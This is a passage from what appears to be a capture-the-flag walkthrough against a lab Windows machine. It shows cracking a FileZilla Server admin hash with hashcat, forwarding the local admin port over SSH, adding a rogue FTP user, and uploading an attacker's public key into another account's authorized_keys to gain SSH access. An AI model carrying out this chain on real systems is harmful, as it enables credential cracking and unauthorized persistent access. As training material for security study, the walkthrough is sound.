 ```
[--admin.password@index=1 --admin.password.hash=mSbrgj1R6oqMMSk4Qk1TuYTc... --admin.password.salt=AdRNx7rAs1CEM23pA.... --admin.password.iterations=100000]
```

And then again we can create custom wordlist to crack it

```
$ hashcat -m 20300 ./filezilla.hash /opt/rockyou.txt -r ./hash_rule.txt
```

The next part of this chain is to enumerate the ports in the machine, we can see some interesting ports such as:

```
TCP    [::1]:14148            [::]:0                 LISTENING       3192
```

We can forward this port, but if we google around we can see that it is related to FileZilla Server, lets forward it:

```
ssh -L 127.0.0.1:8003:127.0.0.1:14148 backup@10.10.247.38
```

Now comes the tricky part, you have to use **Windows** to make this client work, I've faced some issues on Linux but I know that some people have made it work. You also need to use the same version of this software, luckily under `Software` folder there is a `FileZilla_Server_1.8.0_win64-setup.exe` which we can use to start the UI (we do not need the server), then we can configure it to connect to the port that we forwarded.

<img src="/images/Pasted image 20240218205146.png">

We can then enumerate the current users, but most importantly we can add our new user `syl:5yl`

<img src="/images/Pasted image 20240218205333.png">

Then we should be able to access the ftp server using the newly created user. Upon listing the FTP, we would notice that we have access to the account `sasrv200` because we can list files there. Since that we have READ & WRITE access we can put `authorized_keys` in a `.ssh` folder with our public key.

```
ftp> mkdir .ssh
257 "/Users/sasrv200/.ssh" created successfully.
...
ftp> put authorized_keys
local: authorized_keys remote: authorized_keys
229 Entering Extended Passive Mode (|||65019|)
150 Starting data transfer.
100% |******************************************************************************************************************************|   107      155.72 KiB/s    00:00 ETA
226 Operation successful
107 bytes sent in 00:00 (2.51 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||65164|)
150 Starting data transfer.
-rw-rw-rw- 1 ftp ftp             107 Feb 18 18:57 authorized_keys
226 Operation successful
```
